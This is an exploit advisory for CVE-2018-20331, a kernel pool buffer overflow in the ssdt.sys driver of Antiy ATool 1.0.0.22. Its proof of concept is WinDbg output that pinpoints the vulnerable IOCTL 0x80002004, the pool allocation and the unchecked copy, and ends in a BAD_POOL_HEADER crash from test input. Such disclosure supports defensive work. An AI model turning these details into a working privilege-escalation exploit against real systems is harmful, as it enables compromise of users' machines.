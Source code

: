 EXP
---

    # Exploit Title: Kernel Pool Buffer Overflow ATool - 1.0.0.22 (0day)
    # CVE: CVE-2018-20331
    # Date: 21-12-2018
    # Software Link: http://www.antiy.net/ <http://www.antiy.net/>
    # Exploit Author: Aloyce J. Makalanga
    # Contact: https://twitter.com/aloycemjr <https://twitter.com/aloycemjr>
    # Vendor Homepage: http://www.antiy.net/ <http://www.antiy.net/>
    # Category: Windows
    # Attack Type: local
    # Impact:Code execution/Denial of Service/Escalation of Privileges


    1. Description

    > Local attackers can trigger a Kernel Pool Buffer Overflow in
    > Antiy AVL ATool
    > v1.0.0.22. An attacker must first obtain the ability to execute
    > low-privileged code on the target system in order to exploit this
    > vulnerability. The specific flaw exists within the processing of IOCTL
    > 0x80002004 by the ssdt.sys kernel driver. The bug is
    > caused by failure to properly validate the length of the user-supplied
    > data. An attacker can
    > leverage this vulnerability to execute arbitrary code in the context
    > of the kernel, which could lead to privilege escalation. A failed
    > exploit could lead to denial of service.



    2. Proof of Concept


    0: kd> !drvobj ssdt 2
    Driver object (87fe0f38) is for:
     \Driver\ssdt
    DriverEntry:   aaa0b99e ssdt
    DriverStartIo: 00000000
    DriverUnload:  aaa0b828 ssdt
    AddDevice:     00000000

    Dispatch routines:
    [00] IRP_MJ_CREATE                      aaa0b686    ssdt+0x686
    [01] IRP_MJ_CREATE_NAMED_PIPE           82b08da3    nt!IopInvalidDeviceRequest
    [02] IRP_MJ_CLOSE                       aaa0b686    ssdt+0x686
    [03] IRP_MJ_READ                        82b08da3    nt!IopInvalidDeviceRequest
    [04] IRP_MJ_WRITE                       82b08da3    nt!IopInvalidDeviceRequest
    [05] IRP_MJ_QUERY_INFORMATION           82b08da3    nt!IopInvalidDeviceRequest
    [06] IRP_MJ_SET_INFORMATION             82b08da3    nt!IopInvalidDeviceRequest
    [07] IRP_MJ_QUERY_EA                    82b08da3    nt!IopInvalidDeviceRequest
    [08] IRP_MJ_SET_EA                      82b08da3    nt!IopInvalidDeviceRequest
    [09] IRP_MJ_FLUSH_BUFFERS               82b08da3    nt!IopInvalidDeviceRequest
    [0a] IRP_MJ_QUERY_VOLUME_INFORMATION    82b08da3    nt!IopInvalidDeviceRequest
    [0b] IRP_MJ_SET_VOLUME_INFORMATION      82b08da3    nt!IopInvalidDeviceRequest
    [0c] IRP_MJ_DIRECTORY_CONTROL           82b08da3    nt!IopInvalidDeviceRequest
    [0d] IRP_MJ_FILE_SYSTEM_CONTROL         82b08da3    nt!IopInvalidDeviceRequest
    [0e] IRP_MJ_DEVICE_CONTROL              aaa0b6c8    ssdt+0x6c8 <======================= Dispatch Function
    [0f] IRP_MJ_INTERNAL_DEVICE_CONTROL     82b08da3    nt!IopInvalidDeviceRequest
    [10] IRP_MJ_SHUTDOWN                    82b08da3    nt!IopInvalidDeviceRequest
    [11] IRP_MJ_LOCK_CONTROL                82b08da3    nt!IopInvalidDeviceRequest
    [12] IRP_MJ_CLEANUP                     82b08da3    nt!IopInvalidDeviceRequest
    [13] IRP_MJ_CREATE_MAILSLOT             82b08da3    nt!IopInvalidDeviceRequest
    [14] IRP_MJ_QUERY_SECURITY              82b08da3    nt!IopInvalidDeviceRequest
    [15] IRP_MJ_SET_SECURITY                82b08da3    nt!IopInvalidDeviceRequest
    [16] IRP_MJ_POWER                       82b08da3    nt!IopInvalidDeviceRequest
    [17] IRP_MJ_SYSTEM_CONTROL              82b08da3    nt!IopInvalidDeviceRequest
    [18] IRP_MJ_DEVICE_CHANGE               82b08da3    nt!IopInvalidDeviceRequest
    [19] IRP_MJ_QUERY_QUOTA                 82b08da3    nt!IopInvalidDeviceRequest
    [1a] IRP_MJ_SET_QUOTA                   82b08da3    nt!IopInvalidDeviceRequest
    [1b] IRP_MJ_PNP                         82b08da3    nt!IopInvalidDeviceRequest

    0: kd> bp aaa0b6c8
    0: kd> g
    Breakpoint 0 hit
    ssdt+0x6c8:
    aaa0b6c8 8bff            mov     edi,edi
    0: kd> dd edi
    87d6d238  00800005 86c620c8 00000000 00000000
    87d6d248  00000000 00000000 00000000 00000000
    87d6d258  00000000 00000000 00000000 00040002
    87d6d268  00000000 00000000 00000000 00000000
    87d6d278  00000000 00000001 00000000 00040001
    87d6d288  00000000 87d6d28c 87d6d28c 00040000
    87d6d298  00000000 87d6d29c 87d6d29c 00000000
    87d6d2a8  00000000 87d6d2ac 87d6d2ac 00000000
    0: kd> u eip L20
    ssdt+0x6c8:
    aaa0b6c8 8bff            mov     edi,edi
    aaa0b6ca 55              push    ebp
    aaa0b6cb 8bec            mov     ebp,esp
    aaa0b6cd 83ec0c          sub     esp,0Ch
    aaa0b6d0 53              push    ebx
    aaa0b6d1 8b5d0c          mov     ebx,dword ptr [ebp+0Ch]
    aaa0b6d4 8b4360          mov     eax,dword ptr [ebx+60h]
    aaa0b6d7 56              push    esi
    aaa0b6d8 33f6            xor     esi,esi
    aaa0b6da 89731c          mov     dword ptr [ebx+1Ch],esi
    aaa0b6dd 8b5004          mov     edx,dword ptr [eax+4]
    aaa0b6e0 8b4808          mov     ecx,dword ptr [eax+8]
    aaa0b6e3 8b400c          mov     eax,dword ptr [eax+0Ch]
    aaa0b6e6 3d00200080      cmp     eax,80002000h
    aaa0b6eb 57              push    edi
    aaa0b6ec 8b7b0c          mov     edi,dword ptr [ebx+0Ch]
    aaa0b6ef 8955fc          mov     dword ptr [ebp-4],edx
    aaa0b6f2 0f84d7000000    je      ssdt+0x7cf (aaa0b7cf)
    aaa0b6f8 3d04200080      cmp     eax,80002004h <======================== Vulnerable IOCTL
    aaa0b6fd 7442            je      ssdt+0x741 (aaa0b741)
    aaa0b6ff 3d08200080      cmp     eax,80002008h
    aaa0b704 7531            jne     ssdt+0x737 (aaa0b737)
    aaa0b706 8b37            mov     esi,dword ptr [edi]
    aaa0b708 56              push    esi
    aaa0b709 68a4b6a0aa      push    offset ssdt+0x6a4 (aaa0b6a4)
    aaa0b70e e873fdffff      call    ssdt+0x486 (aaa0b486)
    aaa0b713 a10cb5a0aa      mov     eax,dword ptr [ssdt+0x50c (aaa0b50c)]
    aaa0b718 3b7008          cmp     esi,dword ptr [eax+8]
    aaa0b71b 59              pop     ecx
    aaa0b71c 59              pop     ecx
    aaa0b71d 7714            ja      ssdt+0x733 (aaa0b733)
    aaa0b71f 8b00            mov     eax,dword ptr [eax]
    0: kd> u . L40
    ssdt+0x6f8:
    aaa0b6f8 3d04200080      cmp     eax,80002004h
    aaa0b6fd 7442            je      ssdt+0x741 (aaa0b741)
    aaa0b6ff 3d08200080      cmp     eax,80002008h
    aaa0b704 7531            jne     ssdt+0x737 (aaa0b737)
    aaa0b706 8b37            mov     esi,dword ptr [edi]
    aaa0b708 56              push    esi
    aaa0b709 68a4b6a0aa      push    offset ssdt+0x6a4 (aaa0b6a4)
    aaa0b70e e873fdffff      call    ssdt+0x486 (aaa0b486)
    aaa0b713 a10cb5a0aa      mov     eax,dword ptr [ssdt+0x50c (aaa0b50c)]
    aaa0b718 3b7008          cmp     esi,dword ptr [eax+8]
    aaa0b71b 59              pop     ecx
    aaa0b71c 59              pop     ecx
    aaa0b71d 7714            ja      ssdt+0x733 (aaa0b733)
    aaa0b71f 8b00            mov     eax,dword ptr [eax]
    aaa0b721 8b04b0          mov     eax,dword ptr [eax+esi*4]
    aaa0b724 8907            mov     dword ptr [edi],eax
    aaa0b726 8b45fc          mov     eax,dword ptr [ebp-4]
    aaa0b729 89431c          mov     dword ptr [ebx+1Ch],eax
    aaa0b72c 33f6            xor     esi,esi
    aaa0b72e e9ad000000      jmp     ssdt+0x7e0 (aaa0b7e0)
    aaa0b733 83631c00        and     dword ptr [ebx+1Ch],0
    aaa0b737 be0d0000c0      mov     esi,0C000000Dh
    aaa0b73c e99f000000      jmp     ssdt+0x7e0 (aaa0b7e0)
    aaa0b741 6844646b20      push    206B6444h     <======================= Pooltag
    aaa0b746 c1e902          shr     ecx,2
    aaa0b749 52              push    edx
    aaa0b74a 8bf1            mov     esi,ecx
    aaa0b74c 6a00            push    0        <==================================Pool type
    aaa0b74e

    1: kd> u . L20
    ssdt+0x782:
    aaa0b782 8911            mov     dword ptr [ecx],edx
    aaa0b784 83c104          add     ecx,4
    aaa0b787 ff4df8          dec     dword ptr [ebp-8]
    aaa0b78a 75e5            jne     ssdt+0x771 (aaa0b771)
    aaa0b78c 8b75f4          mov     esi,dword ptr [ebp-0Ch]
    aaa0b78f 8b0d0cb5a0aa    mov     ecx,dword ptr [ssdt+0x50c (aaa0b50c)]
    aaa0b795 3b7108          cmp     esi,dword ptr [ecx+8]
    aaa0b798 7316            jae     ssdt+0x7b0 (aaa0b7b0)
    aaa0b79a 8bd6            mov     edx,esi
    aaa0b79c 8b09            mov     ecx,dword ptr [ecx]
    aaa0b79e 8b0c91          mov     ecx,dword ptr [ecx+edx*4]
    aaa0b7a1 890c90          mov     dword ptr [eax+edx*4],ecx
    aaa0b7a4 8b0d0cb5a0aa    mov     ecx,dword ptr [ssdt+0x50c (aaa0b50c)]
    aaa0b7aa 42              inc     edx
    aaa0b7ab 3b5108          cmp     edx,dword ptr [ecx+8]
    aaa0b7ae 72ec            jb      ssdt+0x79c (aaa0b79c)
    aaa0b7b0 8b4dfc          mov     ecx,dword ptr [ebp-4]
    aaa0b7b3 8bd1            mov     edx,ecx
    aaa0b7b5 c1e902          shr     ecx,2
    aaa0b7b8 8bf0            mov     esi,eax
    aaa0b7ba f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
    aaa0b7bc 8bca            mov     ecx,edx
    aaa0b7be 83e103          and     ecx,3
    aaa0b7c1 50              push    eax
    aaa0b7c2 f3a4            rep movs byte ptr es:[edi],byte ptr [esi] <======================= Vulnerable copy

    1: kd> dc edi
    85a6ce00  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA    <================ Evil user input
    85a6ce10  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    85a6ce20  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    85a6ce30  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    85a6ce40  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    85a6ce50  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    85a6ce60  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    85a6ce70  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    1: kd> g

    *** Fatal System Error: 0x00000019
                           (0x00000020,0x892CF250,0x892CF260,0x08020012)

    Break instruction exception - code 80000003 (first chance)

    A fatal system error has occurred.
    Debugger entered on first try; Bugcheck callbacks have not been invoked.

    A fatal system error has occurred.

    1: kd> !analyze -v

    *******************************************************************************
    *                                                                             *
    *                        Bugcheck Analysis                                    *
    *                                                                             *
    *******************************************************************************


    BAD_POOL_HEADER (19)
    The pool is already corrupt at the time of the current request.
    This may or may not be due to the caller.
    The internal pool links must be walked to figure out a possible cause of
    the problem, and then special pool applied to the suspect tags or the driver
    verifier to a suspect driver.
    Arguments:
    Arg1: 00000020, a pool block header size is corrupt.
    Arg2: 892cf250, The pool entry we were looking for within the page.
    Arg3: 892cf260, The next pool entry.
    Arg4: 08020012, (reserved






    3. Solution:

    None